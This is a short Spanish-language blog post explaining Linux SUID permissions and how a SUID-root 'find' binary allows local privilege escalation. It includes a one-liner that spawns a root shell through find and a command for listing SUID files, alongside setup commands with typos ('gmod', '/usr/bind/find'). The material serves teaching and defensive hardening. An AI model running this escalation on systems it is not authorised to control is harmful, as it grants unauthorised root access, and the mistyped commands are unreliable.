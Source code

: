 ```yaml
---
date: 2021-09-07T00:22:05.000Z
layout: post
comments: true
title: Permisos SIUD
subtitle: 'y su explotación'
description: >-
image: >-
  http://imgfz.com/i/Q8pIHbz.png
optimized_image: >-
  http://imgfz.com/i/Q8pIHbz.png
category: ciberseguridad
tags:
  - permisos
  - linux
  - GNU
  - hacking
author: Felipe Canales Cayuqueo
paginate: true
---
```

Este tipo de permiso establece el ID de usuario del propietario de manera temporal, el cual se consigue agregando un 4 al momento de otorgar los permisos:
```bash
Si antes se realizaba
root> gmod 755 /usr/bind/find
[-rwxr-xr-x]

Ahora si quieres agregar el permiso SIUD, se debe colocar de la siguiente forma
root> gmod 4755 /usr/bind/find
[-rwsr-xr-x]

```

Ahora en este caso se lo asignamos a ```find```, el problema es que esto es vulnerable pues si aplicamos el siguiente comando, podremos obtener acceso como root:

```bash
user@user:~$ find . -exec /bin/sh -p \; -quit
# whoami
root

```
>https://gtfobins.github.io/gtfobins/find/

Esto pasa debido a que a user se le asigna de manera temporal el permiso de root (propietario), y en el caso mostrado se abre una shell aprovechando la vulnerabilidad.

Para encontrar ficheros con permisos SIUD, se puede con el siguiente comando:

```bash
find / -perm -4000 -exec ls -l {} \; 2>/dev/null
```

